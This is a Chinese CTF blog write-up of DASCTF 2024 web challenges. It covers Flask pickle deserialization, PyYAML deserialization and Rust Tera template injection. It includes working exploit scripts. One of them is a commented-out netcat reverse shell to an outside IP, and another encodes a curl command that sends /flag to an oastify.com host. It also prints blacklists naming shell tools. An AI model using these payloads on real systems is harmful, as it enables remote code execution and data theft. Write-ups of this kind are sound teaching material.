








+++
title = "DASCTF2024最后一战"
slug = "dasctf-2024-final-battle"
description = ""
date = "2024-12-21T18:33:44"
lastmod = "2024-12-21T18:33:44"
image = ""
license = ""
categories = ["赛题"]
tags = ["pickle", "Tera", "yaml"]
+++

早上师傅问的时候我还在床上


因为介于我之前的表现，我的DAS是基本没啥输出的，然后吃了一碗芝麻糊，就跑到工作室开始看题了

## const_python

```python
import builtins
import io
import sys
import uuid
from flask import Flask, request,jsonify,session
import pickle
import base64


app = Flask(__name__)

app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "")


class User:
    def __init__(self, username, password, auth='ctfer'):
        self.username = username
        self.password = password
        self.auth = auth

password = str(uuid.uuid4()).replace("-", "")
Admin = User('admin', password,"admin")

@app.route('/')
def index():
    return "Welcome to my application"


@app.route('/login', methods=['GET', 'POST'])
def post_login():
    if request.method == 'POST':

        username = request.form['username']
        password = request.form['password']


        if username == 'admin' :
            if password == admin.password:
                session['username'] = "admin"
                return "Welcome Admin"
            else:
                return "Invalid Credentials"
        else:
            session['username'] = username


    return '''
        <form method="post">
        <!-- /src may help you>
            Username: <input type="text" name="username"><br>
            Password: <input type="password" name="password"><br>
            <input type="submit" value="Login">
        </form>
    '''


@app.route('/ppicklee', methods=['POST'])
def ppicklee():
    data = request.form['data']

    sys.modules['os'] = "not allowed"
    sys.modules['sys'] = "not allowed"
    try:

        pickle_data = base64.b64decode(data)
        for i in {"os", "system", "eval", 'setstate', "globals", 'exec', '__builtins__', 'template', 'render', '\\',
                 'compile', 'requests', 'exit',  'pickle',"class","mro","flask","sys","base","init","config","session"}:
            if i.encode() in pickle_data:
                return i+" waf !!!!!!!"

        pickle.loads(pickle_data)
        return "success pickle"
    except Exception as e:
        return "fail pickle"


@app.route('/admin', methods=['POST'])
def admin():
    username = session['username']
    if username != "admin":
        return jsonify({"message": 'You are not admin!'})
    return "Welcome Admin"


@app.route('/src')
def src():
    return  open("app.py", "r",encoding="utf-8").read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=False, port=5000)
```

本地起好环境之后，发包先随便session，因为我发现如果直接发admin的包是直接500错误了

```http
POST /login HTTP/1.1
Host: 127.0.0.1:5000
Content-Length: 27
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1:5000
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:5000/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: session-name=c
sec-purpose: prefetch;prerender
purpose: prefetch
Connection: close

username=test&password=test
```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.12.2
Date: Sat, 21 Dec 2024 05:44:22 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 258
Vary: Cookie
Set-Cookie: session=eyJ1c2VybmFtZSI6InRlc3QifQ.Z2ZVtg.Gqra5V801wvmOG3Fw3XsRCnU-Q0; HttpOnly; Path=/
Connection: close


        <form method="post">
        <!-- /src may help you>
            Username: <input type="text" name="username"><br>
            Password: <input type="password" name="password"><br>
            <input type="submit" value="Login">
        </form>
    
```

```
flask-unsign --decode --cookie 'eyJ1c2VybmFtZSI6InRlc3QifQ.Z2ZZYg.7H774D3eSG-v_IZzQmYNk2d-Ka4'

flask-unsign --unsign --cookie 'eyJ1c2VybmFtZSI6InRlc3QifQ.Z2ZZYg.7H774D3eSG-v_IZzQmYNk2d-Ka4'
```

就在我还在苦苦想着session如何伪造的时候，我发现pickle哪里没有做身份验证，就只需要绕过就可以了，只不过是一个无回显，这里我们要反弹shell才行

```python
import io
import pickle
import subprocess
import base64

class A:
    def __reduce__(self):
        # return (subprocess.getoutput,("nc 156.238.233.9 9999 -e /bin/sh",))
        return (subprocess.getoutput, ("cp /flag app.py",))


poc=pickle.dumps(A())
payload=base64.b64encode(poc).decode()
print(payload)
# data=pickle.loads(base64.b64decode(payload))
# print(data)
```

想了好久最后想到覆盖app.py

## yaml_matser

```python
import os
import re
import yaml
from flask import Flask, request, jsonify, render_template


app = Flask(__name__, template_folder='templates')

UPLOAD_FOLDER = 'uploads'
os.makedirs(UPLOAD_FOLDER, exist_ok=True)
def waf(input_str):


    blacklist_terms = {'apply', 'subprocess','os','map', 'system', 'popen', 'eval', 'sleep', 'setstate',
                       'command','static','templates','session','&','globals','builtins'
                       'run', 'ntimeit', 'bash', 'zsh', 'sh', 'curl', 'nc', 'env', 'before_request', 'after_request',
                       'error_handler', 'add_url_rule','teardown_request','teardown_appcontext','\\u','\\x','+','base64','join'}

    input_str_lower = str(input_str).lower()


    for term in blacklist_terms:
        if term in input_str_lower:
            print(f"Found blacklisted term: {term}")
            return True
    return False


file_pattern = re.compile(r'.*\.yaml$')


def is_yaml_file(filename):
    return bool(file_pattern.match(filename))

@app.route('/')
def index():
    return '''
    Welcome to DASCTF X 0psu3
    <br>
    Here is the challenge <a href="/upload">Upload file</a>
    <br>
    Enjoy it <a href="/Yam1">Yam1</a>
    '''

@app.route('/upload', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        try:
            uploaded_file = request.files['file']

            if uploaded_file and is_yaml_file(uploaded_file.filename):
                file_path = os.path.join(UPLOAD_FOLDER, uploaded_file.filename)
                uploaded_file.save(file_path)

                return jsonify({"message": "uploaded successfully"}), 200
            else:
                return jsonify({"error": "Just YAML file"}), 400

        except Exception as e:
            return jsonify({"error": str(e)}), 500


    return render_template('upload.html')

@app.route('/Yam1', methods=['GET', 'POST'])
def Yam1():
    filename = request.args.get('filename','')
    if filename:
        with open(f'uploads/{filename}.yaml', 'rb') as f:
            file_content = f.read()
        if not waf(file_content):
            test = yaml.load(file_content)
            print(test)
    return 'welcome'


if __name__ == '__main__':
    app.run()

```

yaml反序列化漏洞，但是我之前从来没有接触过，中途降低了难度不用写数据包了，不过这对于我来说好像没啥区别，最后找了很久的payload发现这两个

```
!!python/object/new:type
args: ['z', !!python/tuple [], {'extend': !!python/name:exec }]
listitems: "print(11\\x31)"

!!python/object/new:timeit.timeit ["print(1);exit()"]
```

不过都没成功，后面发现是编码问题，要绕过

```python
import requests
def string_to_binary_list(s):
    return ['{0:08b}'.format(ord(c)) for c in s]
def string_to_ten_list(s):
    list_binary = string_to_binary_list(s)
    ten_list = []
    for i in range(len(list_binary)):
        ten_list.append(int(list_binary[i],2))
    return ten_list

payload = "__import__('os').system('curl -d @/flag pwpr5f3bv38sqb2ytuykkpkncei56u.oastify.com')"
list1 = string_to_ten_list(payload)
payload_encode = "('%c'*"+str(len(list1))+")%"+str(tuple(list1))

file_contents = b"""!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "exec(""" + payload_encode.encode('utf8') + b")\""

url = "http://node5.buuoj.cn:29438/"
r1=requests.post(url + "/upload", files={'file': ('test.yaml', file_contents, 'application/octet-stream')})
print(r1.text)

r2 = requests.get(url + "/Yam1?filename=test")
print(r2.text)
```



## 签到题

发现一张图片但是没有什么用处


拖到010里面发现有DAS就以为是个misc题，



搞了特别的久，但是后面总觉得不对劲，由于本人不会misc，宽高和隐写工具用完了，也不行，然后就想着扫一下？不过做过buu的都知道这个会比较不让扫，所以我们得控制一下速度，不过亲测好像不用控制也可以

```
dirsearch -u https://game.wetolink.com/ 
```



## 西湖论剑邀请函获取器

题目更新了提示之后大家开始了操作，我也来看看题，因为第六名刚好是个坎，后面的队伍也在紧追不舍



给出了提示SSTI并且是RUST的，但是我找了好久发现就是没有，并且提示说拿到环境变量的函数就有了，那么这里我们问AI发现这个东西就说个`std::env`可以拿到环境变量，那么我怎么写利用链子呢，还是找不到相关资料，最后，我想到一个很好用的payload工具，`payloadallthings`，把里面的SSTI全部测试一遍发现啊，这个东西他只解析，图片的话也是随便用一个都可以，我就是直接截图的哈哈，命名为demo.jpg发现确实是可以的



经过测试发现这个框子他直解析大括号

```
{{}}
```

后面一直在找资料看到都17:48了，赶紧找啊，后面找到了小绿草的一篇文章

[帮了大忙](https://ctf.njupt.edu.cn/archives/975)



发现poc甚至都是一模一样的

```
{{get_env(name="FLAG")}}
```

成功拿下



并且以微弱的优势成功拿到第六名的三等奖



我兴奋的在群里面大喊绝杀，哈哈
